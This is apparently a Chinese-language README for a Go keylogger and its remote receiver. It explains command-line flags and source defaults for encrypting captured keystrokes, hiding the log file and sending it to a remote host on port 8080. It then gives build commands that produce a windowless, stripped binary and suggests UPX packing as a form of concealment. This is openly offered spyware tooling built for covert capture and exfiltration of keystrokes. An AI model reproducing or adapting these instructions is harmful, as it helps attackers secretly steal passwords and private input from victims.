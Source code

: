 ### listener
键盘监听程序

#### 参数配置
##### 1. 编译后，以命令行参数的方式进行传入
```
$ keylistener.exe -h
    -E
       encode text (default false)
    -H
       hidden file (default false)
    -lh string
       listener host
    -o string
       output to file (default "c:\\sys\\key.txt")
```

参数：

* -E : 进行文本加密
* -H : 隐藏记录文件
* -lh: 远程接收主机地址
* -o: 本地暂存文件的路径

示例：
进行文本加密， 隐藏记录文件，并把记录发送到， 192.168.1.148:8080
```
$ keylistener.exe -E -H -lh 192.168.1.148:8080
```

##### 2. 设置默认参数，无需手动输入, 编译后直接启动程序可以使用
自行修改listener/main.go下面这几行代码代码

```
// 默认配置
const (
	defaultPath     = "c:\\sys\\key.txt"     // 默认文件保存路径
	defaultHost     = "192.168.252.130:8080" // 默认远程接收地址
	defaultIsEncode = true                   // 默认进行文本加密
	defaultIsHidden = true                   // 默认进行文件隐藏
)
```

#### 编译

##### 1. 进入程序目录
```
$ cd keyboard/listener
```

##### 2. 编译程序
```
$ go build -ldflags "-s -w -H windowsgui" -o keylistener.exe *.go
```

##### 3. 可选，使用upx压缩程序（据说能起到一定加壳作用）
```
$ upx -9 keylistener.exe
```

### handler
记录接收的远程端，也可以用于解密加密过的键盘记录文件

##### 1. 进入程序目录
```
$ cd keyboard/handler
```

##### 2. 编译程序
```
$ go build -o keyhandler.exe *.go
```

##### 3. 参数
```
  -D    decode text
  -df string
        decode file
  -o string
        output to file
  -p string
        port
```
* -D: 是否需要解密，如果发送端进行加密，可使用此参数进行解密
* -df: 解密文件，后面接文件路径
* -o: 输出文件路径
* -p: 服务端端口地址

示例：

1. 监听8080端口,并对记录进行解密
```
$ keyhandler.exe -D -p 0.0.0.0:8080
```

2. 解密加密文件
```
$ keyhandler.exe -df key.txt -o log.txt
```

